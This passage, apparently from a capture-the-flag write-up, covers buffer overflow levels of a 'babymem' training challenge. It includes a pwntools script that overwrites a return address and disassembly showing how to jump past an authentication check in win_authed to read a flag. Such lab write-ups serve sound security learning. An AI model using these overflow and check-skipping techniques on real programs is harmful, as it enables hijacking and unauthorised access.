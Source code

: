 -It is similar to level 5.0, but you need to find offset.
**My script:**
```
from pwn import *
r = process('/challenge/babymem_level5.1')
r.recvuntil(b'Number of payload records to send: ')
r.sendline(b'8388608')
r.recvuntil('Size of each payload record: ')
r.sendline(b'512')
r.recvuntil(b'Send your payload (up to 4294967296 bytes)!')
r.sendline(b'A'*72 + p64(0x4018a4))
r.interactive()
```
# 6. Level 6.0:
> In this level, there is no "win" variable.
> You will need to force the program to execute the win_authed() function
> by directly overflowing into the stored return address back to main

> One caveat in this challenge is that the win_authed() function must first auth:
> it only lets you win if you provide it with the argument 0x1337.
> Speifically, the win_authed() function looks something like:
>     void win_authed(int token)
>     {
>       if (token != 0x1337) return;
>       puts("You win! Here is your flag: ");
>       sendfile(1, open("/flag", 0), 0, 256);
>       puts("");
>       }
>     

-First, I spent many times to overwriting the token variable; however, it isn't successful. After that, I read:

> So how do you pass the check? There *is* a way, and we will cover it later,
> but for now, we will simply bypass it! You can overwrite the return address
> with *any* value (as long as it points to executable code), **not just the start
> of functions**. Let's overwrite past the token check in win!

~~-Bruh=)))).~~
```
   0x0000000000402339 <+0>:     endbr64
   0x000000000040233d <+4>:     push   rbp
   0x000000000040233e <+5>:     mov    rbp,rsp
   0x0000000000402341 <+8>:     sub    rsp,0x10
   0x0000000000402345 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000402348 <+15>:    cmp    DWORD PTR [rbp-0x4],0x1337
   0x000000000040234f <+22>:    jne    0x402447 <win_authed+270>
   0x0000000000402355 <+28>:    lea    rdi,[rip+0xd94]        # 0x4030f0
```
-We can see that the address of win_authed remains unchanged; thus, what about if we jump after this check?
**It work**
